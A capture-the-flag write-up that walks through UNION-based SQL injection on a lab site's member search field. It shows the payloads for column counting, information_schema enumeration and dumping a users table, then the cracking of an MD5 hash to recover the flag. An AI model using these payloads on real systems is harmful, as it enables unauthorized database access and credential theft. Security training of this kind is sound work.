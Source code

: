 ### Title: <span style="color:blue">SQL Injection Vulnerability in Members Input Field</span>

**Location:** `page=member`

**Step 1:** try to write any basic SQL SELECT Statement in members input field as it is vulnerable to SQL injection

**Result:**

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'select \*' at line 1
```

**Step 2 :**
we write to the search field `74 or 1=1` or `74 or 1=1--` we can replace 74 by any other random id.
the input have a label:` SEARCH MEMBER BY ID` so the original query may be something similar to :

```sql
SELECT <column_name1>, <column_name2> FROM <table_name> WHERE ID = "id_number"

```

the injected query `74 or 1=1-- ` is typically combined with the original query by the application's backend code before being sent to the database for execution. so the resulted query is something like

```sql
 SELECT <column_name1>, <column_name2> FROM <table_name> WHERE ID = 74 or 1=1
```

In this case, the injected part '74 OR 1=1--' causes the query to return all rows from the users table because '1=1' is always true. If 'id=74' is not found, all the rows will be returned as 'OR 1=1' allows this to happen. The '--' at the end is used to comment out the rest of the original query to avoid syntax errors (it's not necessary to use the hyphens).
**Result:**

```sql
 result
 ID: 74 or 1=1
 First name: one
 Surname : me
```

> [!NOTE]
> the result show that the original select statement, query over two columns and this is a very important information to use in the sql query injection.

**Step 3 :**

In SQL injection attacks, knowing the number of columns in a SQL query can be important for constructing a SQL statement that doesn't break the syntax or structure of the original query. Additionally, if we want to use the UNION clause to combine other queries into the original, this condition should be fulfilled: Every SELECT statement within UNION must have the same number of columns.
We can use the `union-based` SQL injection technique to select more and more null values until the query is correct.
The UNION operator is used to combine the result sets of two or more SELECT statements.

```sql

SELECT _column_name(s)_ FROM _table1_ UNION SELECT _column_name(s)_ FROM _table2_;
Every SELECT statement within UNION must have the same number of columns.
The columns must also have similar data types.
The columns in every SELECT statement must also be in the same order. Syntax example:

```

```sql

74 or 1=1 UNION SELECT null; -- The used SELECT statements have a different number of columns.
74 or 1=1 UNION SELECT null,null; -- This works.
74 or 1=1 UNION SELECT null,null,null; -- The used SELECT statements have a different number of columns.
```

**Step 3 :** use the information_schema database

`INFORMATION_SCHEMA` is a database within each MySQL instance, the place that stores information about all the other databases, contains several read-only tables, and not perform INSERT, UPDATE, or DELETE operations on them.
You can use queries against the information_schema database to retrieve information about the database server, such as:

- Listing databases and their properties (SCHEMATA table).
- Listing tables in a database (TABLES table).
- Listing columns in a table (COLUMNS table).
- Listing indexes in a table (STATISTICS table).
- Listing privileges that users have (SCHEMA_PRIVILEGES, TABLE_PRIVILEGES, COLUMN_PRIVILEGES tables).

```sql
74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables

```

```sql
ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: db_default
Surname : BASE TABLE

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: users
Surname : BASE TABLE

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: guestbook
Surname : BASE TABLE

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: list_images
Surname : BASE TABLE

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: vote_dbs
Surname : BASE TABLE

```
Here's a breakdown of what's happening:
* The original query appears to be something like SELECT * FROM table WHERE ID = 74.
* The injection starts with 74 or 1=1 which is always true (1=1), effectively bypassing any ID-based filtering in the original query.
* Then, we perform a UNION with another SELECT statement that retrieves TABLE_NAME and TABLE_TYPE columns from the INFORMATION_SCHEMA.tables.
* The retrieved table names `db_default`, `users`,` guestbook`, `list_images`,` vote_dbs`
the value BASE TABLE in the TABLE_TYPE column indicates that the table is a regular, user-created table, not a view or a system table

```sql
 74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS
```

```sql 
ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : user_id

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : first_name

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : last_name

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : town

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : country

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : planet

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : Commentaire

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS 
First name: users
Surname : countersign
....

```
we tried :
```sql 
74 or 1=1 union select user_id, first_name  from users
74 or 1=1 union select last_name, town from users
74 or 1=1 union select country, planet from users
74 or 1=1 union select Commentaire, countersign from users

```
After testing these series of SQL injection attempts, we observed that the flag appeared in the final query. In the query 
```sql 
74 or 1=1 union select Commentaire, countersign from users
```
the result shows : 

```sql
ID: 74 or 1=1 union select Commentaire, countersign from users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28

```
The instruction indicates that to verify this password, one should decrypt it, convert all characters to lowercase, and then apply the SHA256 hashing algorithm.
the provided hash "5ff9d0165b4f92b14994e5c685cdce28" appears to be a 128-bit hexadecimal representation, which is often indicative of an MD5 hash.
using : https://www.dcode.fr/identification-chiffrement to execute the instructions 

decrypt MD5(5ff9d0165b4f92b14994e5c685cdce28) : FortyTwo
lowercase the dycrepted value: fortytwo
sh256 of fortytwo value: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

the flag is : 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

**Resources:**

information_shema: https://dev.mysql.com/doc/mysql-infoschema-excerpt/8.3/en/information-schema-introduction.html

MySQL Injection: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md
https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection

dCode: https://www.dcode.fr/identification-chiffrement